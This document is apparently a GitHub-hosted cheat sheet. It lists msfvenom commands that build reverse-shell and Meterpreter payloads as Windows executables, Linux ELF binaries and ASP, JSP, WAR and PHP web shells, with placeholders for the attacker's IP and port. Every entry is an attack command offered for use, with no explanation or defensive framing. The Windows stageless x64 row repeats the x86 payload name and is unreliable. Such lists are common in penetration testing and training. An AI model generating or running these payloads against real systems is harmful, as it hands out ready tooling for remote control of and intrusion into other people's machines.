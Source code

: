 ## Non-Meterpreter Binaries

Staged Payloads for Windows

|     |                                                                                            |
| --- | ------------------------------------------------------------------------------------------ |
| x86 | `msfvenom -p windows/shell/reverse_tcp LHOST=<IP> LPORT=<PORT> -f exe > shell-x86.exe`     |
| x64 | `msfvenom -p windows/x64/shell_reverse_tcp LHOST=<IP> LPORT=<PORT> -f exe > shell-x64.exe` |

Stageless Payloads for Windows

|     |                                                                                        |
| --- | -------------------------------------------------------------------------------------- |
| x86 | `msfvenom -p windows/shell_reverse_tcp LHOST=<IP> LPORT=<PORT> -f exe > shell-x86.exe` |
| x64 | `msfvenom -p windows/shell_reverse_tcp LHOST=<IP> LPORT=<PORT> -f exe > shell-x64.exe` |

Staged Payloads for Linux

|     |                                                                                          |
| --- | ---------------------------------------------------------------------------------------- |
| x86 | `msfvenom -p linux/x86/shell/reverse_tcp LHOST=<IP> LPORT=<PORT> -f elf > shell-x86.elf` |
| x64 | `msfvenom -p linux/x64/shell/reverse_tcp LHOST=<IP> LPORT=<PORT> -f elf > shell-x64.elf` |

Stageless Payloads for Linux

|   |   |
|---|---|
|x86|`msfvenom -p linux/x86/shell_reverse_tcp LHOST=<IP> LPORT=<PORT> -f elf > shell-x86.elf`|
|x64|`msfvenom -p linux/x64/shell_reverse_tcp LHOST=<IP> LPORT=<PORT> -f elf > shell-x64.elf`|

---

## Non-Meterpreter Web Payloads

|   |   |
|---|---|
|asp|`msfvenom -p windows/shell/reverse_tcp LHOST=<IP> LPORT=<PORT> -f asp > shell.asp`|
|jsp|`msfvenom -p java/jsp_shell_reverse_tcp LHOST=<IP> LPORT=<PORT> -f raw > shell.jsp`|
|war|`msfvenom -p java/jsp_shell_reverse_tcp LHOST=<IP> LPORT=<PORT> -f war > shell.war`|
|php|`msfvenom -p php/reverse_php LHOST=<IP> LPORT=<PORT> -f raw > shell.php`|

---

## Meterpreter Binaries

Staged Payloads for Windows

|     |                                                                                                  |
| --- | ------------------------------------------------------------------------------------------------ |
| x86 | `msfvenom -p windows/meterpreter/reverse_tcp LHOST=<IP> LPORT=<PORT> -f exe > shell-x86.exe`     |
| x64 | `msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=<IP> LPORT=<PORT> -f exe > shell-x64.exe` |

Stageless Payloads for Windows

|     |                                                                                                  |
| --- | ------------------------------------------------------------------------------------------------ |
| x86 | `msfvenom -p windows/meterpreter_reverse_tcp LHOST=<IP> LPORT=<PORT> -f exe > shell-x86.exe`     |
| x64 | `msfvenom -p windows/x64/meterpreter_reverse_tcp LHOST=<IP> LPORT=<PORT> -f exe > shell-x64.exe` |

Staged Payloads for Linux

|   |   |
|---|---|
|x86|`msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=<IP> LPORT=<PORT> -f elf > shell-x86.elf`|
|x64|`msfvenom -p linux/x64/meterpreter/reverse_tcp LHOST=<IP> LPORT=<PORT> -f elf > shell-x64.elf`|

Stageless Payloads for Linux

|   |   |
|---|---|
|x86|`msfvenom -p linux/x86/meterpreter_reverse_tcp LHOST=<IP> LPORT=<PORT> -f elf > shell-x86.elf`|
|x64|`msfvenom -p linux/x64/meterpreter_reverse_tcp LHOST=<IP> LPORT=<PORT> -f elf > shell-x64.elf`|

---

## Meterpreter Web Payloads

|   |   |
|---|---|
|asp|`msfvenom -p windows/meterpreter/reverse_tcp LHOST=<IP> LPORT=<PORT> -f asp > shell.asp`|
|jsp|`msfvenom -p java/jsp_shell_reverse_tcp LHOST=<IP> LPORT=<PORT> -f raw > example.jsp`|
|war|`msfvenom -p java/jsp_shell_reverse_tcp LHOST=<IP> LPORT=<PORT> -f war > example.war`|
|php|`msfvenom -p php/meterpreter_reverse_tcp LHOST=<IP> LPORT=<PORT> -f raw > shell.php`|

